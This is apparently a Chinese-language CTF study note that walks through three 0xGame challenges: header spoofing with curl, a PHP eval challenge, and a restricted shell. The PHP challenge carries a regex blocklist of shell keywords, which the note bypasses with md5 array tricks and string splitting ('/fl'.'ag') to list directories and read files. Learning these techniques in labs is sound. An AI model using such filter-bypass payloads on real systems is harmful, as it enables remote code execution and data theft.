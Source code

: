 ```yaml
---
title: day4
categories:
  - ctf
  - note
---
```


一些题目 + curl 指令的用法

<!--more-->

## CTF+ 题目 [Http的真理，我已解明](https://www.ctfplus.cn/problem-detail/1975492176561311744/description)
### 标签: 0xGame Web

题目要求我们用指定的GET POST COOKIE 传入特定的参数 使用特定的浏览器 使用 表示经过代理或者网关, 以及从指定的网站跳转过来
所以得出curl指令
```bash
curl -A "Safari" -H "Referer: www.mihoyo.com" -H "Via: clash" -d "http=good" -b "Sean=god" http://80-95a23249-8263-444a-93e7-a0d59b688e83.challenge.ctfplus.cn/?hello=web
```
得到flag
0XGame{Congratuation_You_Are_Http_God!!!}


所使用的 curl 参数
```TEXT
-H "Vai: XXX" 指定代理
-H "Referer: XXX" 请求由什么网站跳转到这里

-A            指定访问浏览器
-d            POST 传输
-b            COOKIE 传输
...

```


## CTF+ 题目 [RCE1](https://www.ctfplus.cn/problem-detail/1975492181816774656/description)
### 标签: 0xGame Web
进入靶机发现如下php代码
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$rce1 = $_GET['rce1'];
$rce2 = $_POST['rce2'];
$real_code = $_POST['rce3'];

$pattern = '/(?:\d|[\$%&#@*]|system|cat|flag|ls|echo|nl|rev|more|grep|cd|cp|vi|passthru|shell|vim|sort|strings)/i';

function check(string $text): bool {
    global $pattern;
    return (bool) preg_match($pattern, $text);
}


if (isset($rce1) && isset($rce2)){
    if(md5($rce1) === md5($rce2) && $rce1 !== $rce2){
        if(!check($real_code)){
            eval($real_code);
        } else {
            echo "Don't hack me ~";
        }
    } else {
        echo "md5 do not match correctly";
    }
}
else{
    echo "Please provide both rce1 and rce2";
}
?>

```

发现需要使用GET 传入参数rce1, 使用POST 传入参数 rce2, rce3(real_code)
第一层if语句可以看出 本题目要求 **rce1**, **rce2** 的MD5哈希值相同但是字符串不同,而第二层if则要求
输入的**rce3** 中的命令必须不在正则表达式
<br>
 **/(?:\d|[\$%&#@*]|system|cat|flag|ls|echo|nl|rev|more|grep|cd|cp|vi|passthru|shell|vim|sort|strings)/i** 
<br>
 的筛选范围内

故可以 将**rce2** **rce1** 设定为 列表因为 php中的md5 不能处理列表 都会返回null,或者将其设定为 经过md5 转化后为0e开头的字符串，因为php会将这种数据视为科学计数法而绕过

所以我们可以构建出curl命令为:
```bash
curl -d "rce2[]=12123&rce3=print_r(scandir('/'));" http://80-a997745a-c1b5-4f34-aa06-65d2d675f958.challenge.ctfplus.cn/?rce1[]=123
```
发现 flag文件
故接下来的问题是怎么 在正则表达式的限制下 读取到文件

所以构件出如下命令:
```bash
curl -d "rce2[]=1&rce3=show_source('/fl'.'ag');" "http://80-a997745a-c1b5-4f34-aa06-65d2d675f958.challenge.ctfplus.cn/?rce1[]=2"
```
成功得到flag: 0xGame{This_is_Your_First_Stop_to_RCE!!!}


#### 笔记
php 常用的函数
1. file_get_contents()
一次性读取整个文件内容到字符串中。
2. file()
将整个文件读取到数组中，每行作为数组的一个元素。
3. readfile()
直接读取文件并输出到浏览器，适合文件下载。
4. show_source();
5. include

6. scandir() 获取目录
7. print_r() 打印


## CTF+ 题目 [命令执行🤔](https://www.ctfplus.cn/problem-detail/1975492230630084608/description)
### 标签:0xGame PWN
进入题目提供的nc地址时 发现除了echo, ls命令其他所有命令都不能使用
使用ls 发现文件目录中存在flag 文件
继续ls -l 该文件发现该文件是一个可执行文件所以输入
```bash
. ./flag
```
执行文件得到flag：0xGame{y0u_c4n_4ls0_3x3cu73_c0mm4nd_w17h0u7_5h_4nd_c47}

